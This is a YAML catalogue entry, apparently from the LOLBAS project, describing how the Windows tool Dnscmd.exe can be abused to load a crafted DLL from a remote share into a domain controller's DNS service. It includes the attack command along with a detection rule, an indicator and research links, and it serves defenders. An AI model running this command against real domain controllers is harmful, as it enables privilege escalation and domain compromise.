 ```yaml
---
Name: Dnscmd.exe
Description: A command-line interface for managing DNS servers
Author: 'Oddvar Moe'
Created: 2018-05-25
Commands:
  - Command: dnscmd.exe dc1.lab.int /config /serverlevelplugindll \\192.168.0.149\dll\wtf.dll
    Description: Adds a specially crafted DLL as a plug-in of the DNS Service. This command must be run on a DC by a user that is at least a member of the DnsAdmins group. See the reference links for DLL details.
    Usecase: Remotely inject dll to dns server
    Category: Execute
    Privileges: DNS admin
    MitreID: T1543.003
    OperatingSystem: Windows server
Full_Path:
  - Path: C:\Windows\System32\Dnscmd.exe
  - Path: C:\Windows\SysWOW64\Dnscmd.exe
Code_Sample:
  - Code:
Detection:
  - Sigma: https://github.com/SigmaHQ/sigma/blob/62d4fd26b05f4d81973e7c8e80d7c1a0c6a29d0e/rules/windows/process_creation/proc_creation_win_dnscmd_install_new_server_level_plugin_dll.yml
  - IOC: Dnscmd.exe loading dll from UNC/arbitrary path
Resources:
  - Link: https://medium.com/@esnesenon/feature-not-bug-dnsadmin-to-dc-compromise-in-one-line-a0f779b8dc83
  - Link: https://blog.3or.de/hunting-dns-server-level-plugin-dll-injection.html
  - Link: https://github.com/dim0x69/dns-exe-persistance/tree/master/dns-plugindll-vcpp
  - Link: https://twitter.com/Hexacorn/status/994000792628719618
  - Link: http://www.labofapenetrationtester.com/2017/05/abusing-dnsadmins-privilege-for-escalation-in-active-directory.html
Acknowledgement:
  - Person: Shay Ber
    Handle:
  - Person: Dimitrios Slamaris
    Handle: '@dim0x69'
  - Person: Nikhil SamratAshok
    Handle: '@nikhil_mitt'
---
```

